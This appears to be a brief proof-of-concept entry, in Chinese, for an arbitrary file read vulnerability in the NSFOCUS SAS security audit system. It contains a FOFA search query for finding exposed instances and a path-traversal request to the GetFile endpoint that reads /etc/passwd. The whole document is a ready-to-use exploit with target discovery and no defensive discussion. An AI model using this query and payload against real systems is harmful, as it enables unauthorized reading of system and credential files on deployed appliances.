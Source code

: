 # 绿盟sas安全审计系统 GetFile任意文件读取漏洞

    ## fofa

```
:title="NSFOCUS SAS[H]"
```

## poc

/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd

